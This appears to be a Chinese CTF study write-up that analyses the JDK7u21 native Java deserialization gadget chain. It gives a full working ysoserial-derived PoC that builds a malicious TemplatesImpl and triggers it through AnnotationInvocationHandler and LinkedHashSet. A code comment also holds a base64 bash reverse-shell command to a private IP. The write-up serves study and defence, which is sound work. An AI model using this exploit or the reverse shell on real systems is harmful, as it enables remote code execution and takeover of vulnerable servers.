










最近刷了一些`CTF的Java安全方向题目`，发现好几道都是JDK原生序列化，但是我对原生攻击链掌握的也不是很好。所以这里就写两篇文章专门分析一下这些原生序列化链吧，这篇7u21的文章还是老规矩以`ysoserial`中的代码为例进行改造。

JDK7u21 攻击链实际上并不是特定于 `JDK 7u21` 这个版本发现的，而是基于 JDK 的反序列化机制，通过利用 `sun.reflect.annotation.AnnotationInvocationHandler` 类构造恶意链条来实现任意代码执行。它被命名为 7u21 攻击链，主要是因为这种利用方式是在 JDK 7u21 版本之后的更新中引入了对 `AnnotationInvocationHandler` 的修复，防止它被滥用。

该攻击链在JDK7u21之后被修复。

复现版本：JDK7u21

```
<dependency>
    <groupId>org.javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.18.1-GA</version>
</dependency>
```

这里就先给POC吧，方便兄弟们调试：

## POC代码

```java
package origin;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.LinkedHashSet;

public class JDK7u21 {
    static String serialFileName = "jdk21.ser";

    public static void main(String[] args) throws Exception {
        // ================================开始创建templates==========================================
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());
        // ================================创建templates结束==========================================

        // 个人觉得这个字符串才是构造整个攻击链的精髓，妙，太妙了~
        String zeroHashCodeStr = "f5a5a608";

        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        Constructor<?> handlerCon = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        handlerCon.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler)handlerCon.newInstance(JDK7u21.class, map);
        Field typeField = tempHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(tempHandler, Templates.class);

        Templates proxy = (Templates)Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);


        LinkedHashSet set = new LinkedHashSet(); // maintain order
        set.add(templates);
        set.add(proxy);

        // -----------------------这一段没有什么太大的用---------------------------
        // 把这段注释掉整个攻击链也是可以正常运行的，可能是ysoserial中有其他的考虑吧
        Field auxClassesField = templates.getClass().getDeclaredField("_auxClasses");
        auxClassesField.setAccessible(true);
        auxClassesField.set(templates, null);

        Field classField = templates.getClass().getDeclaredField("_class");
        classField.setAccessible(true);
        classField.set(templates, null);
        // -----------------------这一段没有什么太大的用---------------------------

        map.put(zeroHashCodeStr, templates); // swap in real object

        obj2File(set);
        verify();
    }

    public static void obj2File(Object obj) throws Exception{
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
}
```

## 运行



## 跟踪分析

个人感觉整条攻击链的绝妙之处在于zeroHashCodeStr字符串的构造，这个字符串骗过了AnnotationInvocationHandler中的hashCodeImpl方法，使得hash伪装成了一个恒等于Proxy(TemplatesImpl)的hashCode的值，因为恒等于Proxy(TemplatesImpl)，又导致同时骗过了HashMap中的put方法，让HashMap认为TemplatesImpl和Proxy(TemplatesImpl)是相等的，所以触发了HashMap中的处理解决哈希冲突问题的for循环中的equals方法，当触发了equals时，又因为Proxy(TemplatesImpl)调用了equalsImpl，导致遍历invoke了Templates接口中的方法，最终命中了Transformer中的getOutputProperties()，导致构造的恶意代码被执行。

更多关于TemplatesImpl的相关代码可以参考：[TemplatesImpl详解](../详解TemplatesImpl/main.md)

### HashSet

在调用HashSet的readObject方法的时候，这时候会按顺序放（put）进去两个对象

* templates  -> TemplatesImpl
* proxy -> Proxy(TemplatesImpl)

也就是对应的这一块逻辑：

当反序列化被执行的时候，会执行到HashSet的readObject方法。



先执行put(TemplatesImpl, new Object())

### TemplatesImpl

因为底层存储是HashMap，所以这里会调用到HashMap中的put方法。



其中这几个方法的意思是：

* hash -> 求key的hash值，也就是Proxy(TemplatesImpl)的hashCode
* indexFor -> 把hash值映射到table表长度内，也就是决定了最终要存储的table中的索引位置。

跟踪一下hash方法

### hash & hashCodeImpl

来到hash方法，是这样的。



此时k就是TemplatesImpl对象的hashCode方法，然后把TemplatesImpl存放到hashMap中就没什么可说的了。

### Proxy(TemplatesImpl)

在第二次HashSet.put方法中，尝试把Proxy(TemplatesImpl)放进去。然后一直会走到hash方法之前，都和TemplatesImpl没什么两样。然后在这里出现了不同。

此时的k是Proxy(TemplatesImpl)对象，这里就会跳转到静态代理中的invoke方法。



在invoke方法中对hashCode做了处理，会调用到动态代理类内部的hashCodeImpl方法。



然后跟踪hashCodeImpl方法，可以发现如下逻辑：



或许你可能比较懵逼，我来简化一下代码。

```java
Map<String, Object> memberValues = new Map("f5a5a608", TemplatesImpl);
Iterator memberValues = memberValues.entrySet().iterator();
var3 = (Map.Entry)var2.next();
// 因为memberValues中只有一个键值对，所以这里只会执行这一条语句
var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())
    
// 这一行语句可以分成三部分
// ((String)var3.getKey()).hashCode()       (1) var3取到的是 f5a5a608，这个字符串的hashCode等于0
// 127 * ((String)var3.getKey()).hashCode() (2) 因为上一步得到的是0，所以127 * 0还是等于0
// 0 ^ memberValueHashCode(var3.getValue()) (3) 这个函数会计算TemplatesImpl的值，所以取到的是TemplatesImpl的hashCode
```

最终我们得到的就是TemplatesImpl的hashCode。hash方法调用完毕，然后会进入到一个循环体当中，如下：

### equals & equalsImpl

for循环内部是一个关键点

```java
// e.hash == hash 如果索引表中的对象中的hash和Proxy(TemplatesImpl)的hash相等
// 并且
// (k = e.key) == key - 这个==条件可以忽略不记，但是k已经变成了templates也就是第一次放进去的TemplatesImpl
// key.equals(k) - 这个操作就是调用Proxy(TemplatesImpl).equals(TemplatesImpl)，但是因为Proxy(TemplatesImpl)是动态代理，所以会触发动态代理中的invoke方法
if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
    V oldValue = e.value;
    e.value = value;
    e.recordAccess(this);
    return oldValue;
}
```

来到动态代理中的invoke方法，是这么写的


然后来跟踪一下equalsImpl中的方法。



为什么调用了getOutputProperties之后会导致代码执行，可以参考我写的这一篇内容：[TemplatesImpl详解](../详解TemplatesImpl/main.md)

## 关键问题

期间一直困惑我的问题，我会总结下来，提供给大家参考，我当时借鉴了部分师傅的文章，这里就给一篇我觉得有参考意义的：https://www.anquanke.com/post/id/247684

### 为什么是LinkedHashSet？

HashSet行不行？这俩有啥关系？其实看一下具体的定义就知道了，LinkedhashSet的代码如下：


就一点点方法，其实真正的代码实现都在HashSet中呢，如下：



好玩吧，其实LinkedHashSet中是没有实现的，他的功能都是从HashSet继承过来的，HashSet本身就支持LinkedHashMap这种结构，但是默认是不用的，然后LinkedHashSet告诉HashSet我要使用LinkedHashMap作为底层存储结构。就这么点事儿......而且可以看到LinkedHashSet中完全没有readObject方法，所以如果是调用LinkedHashSet的readObject方法那么肯定调用的就是HashSet的readObject方法。

所以这里把LinkedHashSet无缝切换成HashSet再来跑一下攻击链：

amzing！没有任何问题。



### 为什么是f5a5a608？

不一定是f5a5a608，只是f5a5a608字符串的hashCode刚好等于0。

```java
String a = "f5a5a608";
System.out.println(a.hashCode());		// 得到的值刚好等于0
```

只要找一个hashCode为0的字符串即可，大家的POC都写f5a5a608，我觉得只是因为ysoserial中用到了它，它太经典了。

## 攻击链

这是ysoserial中给的攻击链调用过程，我觉得超级详细了，可以结合这个攻击链来学习，真的很清晰了。

```java
LinkedHashSet.readObject()
  LinkedHashSet.add()
    ...
      TemplatesImpl.hashCode() (X)		// (1) ysoserial标注出了这个重点，这是TemplatesImpl的hashCode
  LinkedHashSet.add()
    ...
      Proxy(Templates).hashCode() (X)	// (2) 这里Proxy(Templates)的hashCode()方法
        AnnotationInvocationHandler.invoke() (X) // (3) 调用invoke放大
          AnnotationInvocationHandler.hashCodeImpl() (X)	// (4) invoke方法映射到动态代理内部的hashCodeImpl方法
            String.hashCode() (0)	// 因为构造了0，所以127 * 0还是等于0
            AnnotationInvocationHandler.memberValueHashCode() (X)
              TemplatesImpl.hashCode() (X) // (0 ^ N)，结果还是N这个数本身
      Proxy(Templates).equals()	// 因为(1)和(2)得到的hashCode相等，所以触发equals()方法
        AnnotationInvocationHandler.invoke()	// invoke会遍历Templates接口的方法并调用
          AnnotationInvocationHandler.equalsImpl()	// 遍历到getOutputProperties方法
            Method.invoke()	// 调用getOutputProperties方法导致恶意代码被执行
              ...
                TemplatesImpl.getOutputProperties()
                  TemplatesImpl.newTransformer()
                    TemplatesImpl.getTransletInstance()
                      TemplatesImpl.defineTransletClasses()
                        ClassLoader.defineClass()
                        Class.newInstance()
                          ...
                            MaliciousClass.<clinit>()
                              ...
                                Runtime.exec()
```